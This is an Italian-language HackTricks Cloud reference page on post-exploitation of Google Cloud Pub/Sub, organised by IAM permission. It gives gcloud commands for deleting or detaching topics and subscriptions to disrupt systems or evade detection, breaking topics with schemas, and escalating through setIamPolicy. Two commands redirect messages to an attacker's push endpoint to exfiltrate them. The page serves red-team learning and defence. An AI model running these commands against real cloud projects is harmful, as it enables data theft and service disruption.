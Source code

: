 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Per ulteriori informazioni su Pub/Sub controlla la seguente pagina:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Pubblica un messaggio in un argomento, utile per **inviare dati inaspettati** e attivare funzionalità inaspettate o sfruttare vulnerabilità:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare il rilevamento.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare il rilevamento.\
È possibile eliminare un argomento anche con le sottoscrizioni ad esso collegate.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Usa questo permesso per aggiornare alcune impostazioni del topic per interromperlo, come `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Concediti il permesso di eseguire uno qualsiasi degli attacchi precedenti.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Ottieni tutti i messaggi in un server web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crea un abbonamento e usalo per **estrarre messaggi**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminare un abbonamento** potrebbe essere utile per interrompere un sistema di elaborazione dei log o qualcosa di simile:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Usa questo permesso per aggiornare alcune impostazioni in modo che i messaggi siano memorizzati in un luogo accessibile (URL, tabella Big Query, Bucket) o semplicemente per interromperlo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attacca uno schema a un argomento in modo che i messaggi non lo soddisfino e quindi l'argomento venga interrotto.\
Se non ci sono schemi, potresti doverne creare uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Questo potrebbe sembrare che eliminando uno schema sarai in grado di inviare messaggi che non soddisfano lo schema. Tuttavia, poiché lo schema verrà eliminato, nessun messaggio entrerà effettivamente all'interno dell'argomento. Quindi questo è **INUTILE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Questo creerà uno snapshot di tutti i messaggi non riconosciuti e li rimetterà nell'abbonamento. Non molto utile per un attaccante, ma ecco:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Impara e pratica il hacking su AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking su GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
